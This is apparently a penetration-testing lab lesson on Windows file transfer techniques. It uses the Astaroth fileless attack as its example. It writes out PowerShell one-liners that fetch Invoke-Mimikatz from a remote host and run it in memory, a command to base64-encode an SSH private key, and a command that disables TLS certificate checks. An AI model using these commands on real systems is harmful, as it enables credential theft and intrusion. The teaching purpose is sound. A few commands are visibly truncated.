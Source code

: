 # Windows File Transfer Methods

The Windows operating system has evolved over the past few years, and new versions come with different utilities for file transfer operations. Understanding file transfer in Windows can help both attackers and defenders. Attackers can use various file transfer methods to operate and avoid being caught. Defenders can learn how these methods work to monitor and create the corresponding policies to avoid being compromised.

Let's use the Microsoft Astaroth Attack blog post as an example of an advanced persistent threat (APT).

The blog post starts out talking about fileless threats. The term fileless suggests that a threat doesn't come in a file, they use legitimate tools built into a system to execute an attack. This doesn't mean that there's not a file transfer operation. As discussed later in this section, the file is not "present" on the system but runs in memory.

The Astaroth attack generally followed these steps: A malicious link in a spear-phishing email led to an LNK file. When double-clicked, the LNK file caused the execution of the WMIC tool with the "/Format" parameter, which allowed the download and execution of malicious JavaScript code. The JavaScript code, in turn, downloads payloads by abusing the Bitsadmin tool.

All the payloads were base64-encoded and decoded using the Certutil tool resulting in a few DLL files. The regsvr32 tool was then used to load one of the decoded DLLs, which decrypted and loaded other files until the final payload, Astaroth, was injected into the Userinit process.

We have access to the machine MS02, and we need to download a file from our Pwnbox machine. Let's see how we can accomplish this using multiple File Download methods.

Depending on the file size we want to transfer, we can use different methods that do not require network communication. If we have access to a terminal, we can encode a file to a base64 string, copy its contents from the terminal and perform the reverse operation, decoding the file in the original content. Let's see how we can do this with PowerShell.
An essential step in using this method is to ensure the file you encode and decode is correct. We can use md5sum, a program that calculates and verifies 128-bit MD5 checksums. The MD5 hash functions as a compact digital fingerprint of a file, meaning a file should have the same MD5 hash everywhere. Let's attempt to transfer a sample ssh key. It can be anything else, from our Pwnbox to the Windows target.

- Pwnbox Check SSH Key MD5 Hash: Pwnbox Check SSH Key MD5 Hash
- Pwnbox Encode SSH Key to Base64: cat id_rsa | base64 -w 0;echo

We can copy this content and paste it into a Windows PowerShell terminal and use some PowerShell functions to decode it.
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("base64")

Most companies allow HTTP and HTTPS outbound traffic through the firewall to allow employee productivity. Leveraging these transportation methods for file transfer operations is very convenient. Still, defenders can use Web filtering solutions to prevent access to specific website categories, block the download of file types (like .exe), or only allow access to a list of whitelisted domains in more restricted networks.
PowerShell offers many file transfer options. In any version of PowerShell, the System.Net.WebClient class can be used to download a file over HTTP, HTTPS or FTP. The following table describes WebClient methods for downloading data from a resource:

- OpenRead: Returns the data from a resource as a Stream;
- OpenReadAsync: Returns the data from a resource without blocking the calling thread;
- DownloadData: Downloads data from a resource and returns a Byte array;
- DownloadDataAsync: Downloads data from a resource and returns a Byte array without blocking the calling thread;
- DownloadFile: Downloads data from a resource to a local file;
- DownloadFileAsync: Downloads data from a resource to a local file without blocking the calling thread;
- DownloadString: Downloads a String from a resource and returns a String;
- DownloadStringAsync: Downloads a String from a resource without blocking the calling thread.



## File Download

We can specify the class name Net.WebClient and the method DownloadFile with the parameters corresponding to the URL of the target file to download and the output file name.

- (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')

- (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

## PowerShell DownloadString - Fileless Method

As we previously discussed, fileless attacks work by using some operating system functions to download the payload and execute it directly. PowerShell can also be used to perform fileless attacks. Instead of downloading a PowerShell script to disk, we can run it directly in memory using the Invoke-Expression cmdlet or the alias IEX.

- IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

IEX also accepts pipeline input.

- (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX

## PowerShell Invoke-WebRequest

From PowerShell 3.0 onwards, the Invoke-WebRequest cmdlet is also available, but it is noticeably slower at downloading files. You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.

- Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

## Common Errors with PowerShell

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download. This can be bypassed using the parameter -UseBasicParsing.

Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command:

- [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

